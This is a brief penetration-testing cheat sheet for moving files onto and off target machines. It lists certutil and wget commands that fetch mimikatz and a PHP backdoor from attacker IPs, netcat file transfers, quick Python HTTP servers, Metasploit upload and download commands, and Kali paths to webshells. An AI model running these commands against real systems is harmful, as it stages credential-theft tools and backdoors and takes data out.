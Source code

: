 **To download file from a server (windows cmd)**

- certutil -urlcache -f <webserver-addr> <filename>
- certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe

**To download file from a server (linux cmd)**

- wget http://192.196.45.2/php-backdoor.php

**Setup a server**

- python3 -m http.server 80
- python -m SimpleHTTPServer 80

**Transferring files**

- nc -nvlp 1234 > test.txt (recepient)
- nc -nv ip port < test.txt (sender)

**Msfconosle**
- `upload` : command to upload file
- `download` : Download file from target

**Useful file locations**

- /usr/share/windows-resources/mimikatz/x64
- /usr/share/webshells/php/

  
